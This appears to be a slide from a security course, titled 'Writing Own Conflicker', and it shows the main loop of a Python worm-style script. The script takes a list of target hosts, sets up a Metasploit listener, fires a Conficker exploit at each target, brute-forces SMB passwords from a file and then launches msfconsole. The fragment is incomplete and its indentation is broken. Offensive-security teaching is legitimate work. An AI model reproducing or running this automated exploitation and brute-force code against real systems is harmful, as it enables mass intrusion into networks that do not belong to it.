

# Writing Own Conflicker
args = parser.parse_args()

        tgt_list = find_tgts(args.tgt_hosts)
        l_host = args.l
        l_port = args.p
        pass_file = args.f

        setup_handler(metarc_file, l_host, l_port)
        for tgt_host in tgt_list:
            conficker_exploit(metarc_file, tgt_host, l_host, l_port)

            if pass_file:
                smb_brute(metarc_file, tgt_host, pass_file, l_host, l_port)
    os.system('msfconsole -r meta.rc')